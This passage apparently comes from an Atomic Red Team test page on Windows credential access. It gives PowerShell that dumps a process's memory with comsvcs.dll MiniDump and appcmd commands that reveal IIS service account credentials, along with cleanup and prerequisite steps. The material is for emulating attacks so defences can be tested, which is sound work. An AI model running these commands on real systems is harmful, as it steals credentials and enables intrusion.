 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$ps = (Get-NetTCPConnection -LocalPort 3389 -State Established -ErrorAction Ignore)
if($ps){$id = $ps[0].OwningProcess} else {$id = (Get-Process svchost)[0].Id }
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $id $env:TEMP\svchost-exe.dmp full
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\svchost-exe.dmp -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - Retrieve Microsoft IIS Service Account Credentials Using AppCmd (using list)

AppCmd.exe is a command line utility which is used for managing an IIS web server. The list command within the tool reveals the service account credentials configured for the webserver. An adversary may use these credentials for other malicious purposes.
[Reference](https://twitter.com/0gtweet/status/1588815661085917186?cxt=HHwWhIDUyaDbzYwsAAAA)

**Supported Platforms:** Windows

**auto_generated_guid:** 6c7a4fd3-5b0b-4b30-a93e-39411b25d889

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
C:\Windows\System32\inetsrv\appcmd.exe list apppool /@t:*
C:\Windows\System32\inetsrv\appcmd.exe list apppool /@text:*
C:\Windows\System32\inetsrv\appcmd.exe list apppool /text:*
```

#### Dependencies: Run with `powershell`!

##### Description: IIS must be installed prior to running the test

##### Check Prereq Commands:

```powershell
if ((Get-WindowsFeature Web-Server).InstallState -eq "Installed") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-WindowsFeature -name Web-Server -IncludeManagementTools
```
